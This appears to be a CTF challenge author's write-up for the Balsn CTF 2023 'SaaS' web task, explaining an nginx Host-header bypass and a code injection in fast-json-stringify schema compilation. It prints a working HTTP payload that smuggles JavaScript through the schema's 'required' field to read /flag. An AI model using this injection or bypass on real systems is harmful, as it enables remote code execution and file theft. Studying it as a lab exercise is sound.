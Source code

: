 ```yaml
---
title: '2023 Balsn CTF Web/Saas author Writeup'
disqus: hackmd
tags: note
---
```




# SaaS

![](https://hackmd.io/_uploads/Sk_XFKGWa.png =400x400)

## Description
:::warning
Author's murmur warning! u can jump to [Overview](#Overview).
:::

- The challenge is inspired from [fastify document](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization)
![](https://hackmd.io/_uploads/SJPMNYz-T.png)
- The official doesn't support dynamic creation of schema validation by default, and fastify only precompile schema validation once when the server startup.
- I try to find the real use case or plugin that support dynamic schema/route creation, and the official doesn't like this proposal. see https://github.com/fastify/help/issues/149
- The package `fast-json-stringify` is used to create validator. Thus, I try to find any dependents which has any use case that creates validator from untrusted user input, and 404 not found.
![](https://hackmd.io/_uploads/BynwDYz-p.png =400x300)
- Also, document mentions this [security notice](https://www.npmjs.com/package/fast-json-stringify?activeTab=readme#user-content-security-notice)
![](https://hackmd.io/_uploads/rkSRPtMW6.png =500x250)
- But it is CTF,impractialty is ok, right? And deadline is approaching... That's make it a service to create dynamic schema!
- An additional part is nginx. Since ginoah estimated about 50~100 solves (`easy+++++++`), i comed up with it  when i was reading document for solving ginoah's 1linenginx.
- Then ginoah and kaibro solved this part as soon as they read it. Only i learned it in 2023.
- Thus, the final difficulty is `easy++++++`.

## Overview

- The challenge is clear, try to find where we can inject code in something like `new Function(...)` when create custom schema validator.

```
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

- and we have to route request to `server_name` like `*.saas` but with HTTP header set to `Host: easy++++++`
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

## Solution
 
### Nginx
 - Nginx part is trivial, from [document](http://nginx.org/en/docs/http/ngx_http_core_module.html#var_host)
![](https://hackmd.io/_uploads/Byh40FMWa.png)
- Nginx match `server_name` with `$host`, and it can be  set by `request line`. Then below request bypass the check.
    ```
    GET http://any.saas/ HTTP/1.1
    Host: easy++++++
    ```

### fast-json-stringify

- open vscode, start debugger, trace code.
- I found `requiredProperty` 
```
  // handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```
![](https://hackmd.io/_uploads/rylkLWcGWT.png)
![](https://hackmd.io/_uploads/ByYNb5G-a.png)

- Then
```
POST http://a.saas/register HTTP/1.1 
Host: easy++++++
Content-Type: application/json 
Content-Length: 104

{"$id":"aaa","required":["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]}


HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Tue, 10 Oct 2023 08:59:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: keep-alive

{"route":"/whowilldothis/1c6c400d-94c6-438b-a410-7828f2e05aad"}
```
![](https://hackmd.io/_uploads/HkB6GqMZT.png)
